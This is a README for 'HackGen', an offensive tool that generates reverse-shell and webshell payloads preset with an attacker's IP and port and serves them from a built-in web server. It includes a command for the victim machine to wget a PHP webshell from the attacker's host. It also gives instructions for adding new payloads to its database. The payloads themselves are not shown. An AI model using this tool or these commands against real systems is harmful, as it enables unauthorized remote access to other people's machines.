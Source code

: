 # HackGen
> Pretty much msfvenom, but I hate Metasploit >:(

## Installation:
- Clone this repo to whatever directory you want.
  Note: This repo uses submodules so use the command below to avoid headaches:
```
git clone --recurse-submodules https://github.com/owenCocjin/HackGen.git
```
- Change the path of the rshells.db database to the <b>ABSOLUTE</b> path of the install dir
- Optional: Link the "hackgen.py" script to somewhere in your path so it can be executed from anywhere!

## Usage:
> Use the `-h` flag for details on the usage.

This script was created to easily produce reverse shell codes with an attacker's IP & port in the script.
It can also urlencode or base64 encode the resulting script.
### Webserver:
One fun feature is that you can start hackgen as a webserver which makes it incredibly easy to get rshell code onto a target.
Once the hackgen command us run with the `-w` flag, it will start a webserver on port 8000. When a GET request is sent to the server, it will reply with just the rshell string. Because the server will return the same rhsell code no matter the requested endpoint, a simple way to save to a file is to use `wget` to get a specific page from the server. Because all "pages" return the same thing, wget will end up writing the retrieved rshell to the fetched page. For example, if we wanted to write a PHP webshell to file "webshell.php", on the attacker machine we would run the command:
```
hackgen.py <your ip> <your port> -wf php -n webshell
```
And on the victim machine, we would run:
```
wget http://<your ip>:8000/webshell.php
```
This will save the PHP webshell to the attacker machine under the filename: "webshell.php"

## Adding Your Own Shells:
If you want to add your own shells, you just need to update the `rshells.db` file. 

There are 7 columns that you need to be aware of:
  - id (unique, autoincrementing)
  - name (name of the payload)
  - platform (playform payload runs on)
  - data (the actual payload)
  - description (a brief description of the payload)
  - req_ip (bool; yes if an IP is required in the payload)
  - req_port (bool; yes if a port is required in the payload)
  - uid (a unique ID that can be used to reference the payload)

Most of these are self explanatory except for the uid. This should be in the format: `{platform shorthand}{int}` where the shorthand is a simple code for the platform (like 'b' for Bash, "php" for PHP, etc...), and the int is just an incremented value of the previous uid of the same platform.

When adding payloads that require an IP and/or port, make sure you use the strings `^LOCAL_IP^` and `^LOCAL_PORT^` respectively.

We'll use Python to make it easier to add entire file payloads:
```
$ python3
>>> import sqlite3
>>> db=sqlite3.connect("rshells.db")
>>> curse=db.cursor()
#The command below adds a new payload by reading it from a file
#It also uses a custom IP and PORT, which are TRUE by default and so aren't included
>>> curse.execute("""INSERT INTO rshells (name,platform,description,data,uid) VALUES ('new name','platform','brief description','?','uid')""",(open("path/to/payload/file",'r').read()))
>>> db.commit()
```

---

## To-Do:
- Allow default IP/port by adding a config specifying which network device to get IP from